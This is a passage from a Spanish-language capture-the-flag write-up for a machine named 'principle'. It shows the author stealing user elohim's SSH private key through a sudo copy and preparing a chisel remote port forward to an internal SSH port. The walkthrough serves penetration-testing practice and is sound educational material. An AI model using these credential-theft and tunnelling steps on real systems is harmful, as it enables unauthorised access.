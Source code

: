 ~~~bash
talos@principle:~$ ls -la /home/gehenna
total 36
drwxr-xr-x 4 elohim elohim 4096 Jul  5 08:21 .
drwxr-xr-x 4 root   root   4096 Jul  4 06:11 ..
-rw-r----- 1 elohim elohim    1 Jul  5 08:24 .bash_history
-rw-r----- 1 elohim elohim  261 Jul  5 08:13 .bash_logout
-rw-r----- 1 elohim elohim 3814 Jul  4 05:46 .bashrc
-rw-r----- 1 elohim elohim  777 Jul  4 06:26 user.txt
drw-r----- 3 elohim elohim 4096 Jul  2 20:52 .local
-rw-r----- 1 elohim elohim   11 Jul  6 11:01 .lock
-rw-r----- 1 elohim elohim  840 Jul  2 20:22 .profile
drwx------ 2 elohim elohim 4096 Jul  5 08:22 .ssh
~~~


### Remote port forwarding

Confirmamos que sí está corriendo el servicio SSH por el puerto 3445 y todo apunta que elohim tiene una clave privada, así que vamos a robársela y darle los permisos adecuados.

~~~bash
talos@principle:~$ touch id_rsa
talos@principle:~$ chmod 666 id_rsa 
talos@principle:~$ sudo -u elohim cp /home/gehenna/.ssh/id_rsa .
talos@principle:~$ chmod 600 id_rsa
~~~

Ahora como el puerto no está expuesto hacia fuera, tratamos de conectarnos con la misma vía local:

~~~bash
talos@principle:~$ ssh -i id_rsa -p 3445 elohim@localhost
bash: /usr/bin/ssh: Permission denied
~~~

Esto no funciona, así que tenemos que realizar un remote port forwarding sin SSH.

> Se podría copiar el binario de ssh de nuestra máquina atacante, como alternativa.

> También podríamos copiar nuestra clave pública desde nuestra máquina atacante al authorized_keys.

En este caso utilizaré chisel, que es lo que suelo usar en estos casos. Como ya tenemos su clave privada, copiamos su contenido y creamos un fichero con el mismo en nuestro equipo, sin olvidarse de darle los permisos adecuados con `chmod 600 id_rsa`.

Como siempre, en estos casos crearemos un [servidor en Python](https://kaianperez.github.io/server/) para copiar el chisel a la máquina víctima.

Ahora adjunto una captura de la conexión con chisel (acordarse siempre de dar el permiso de ejecución):

![](/assets/images/principle/chisel.png){: .align-center}
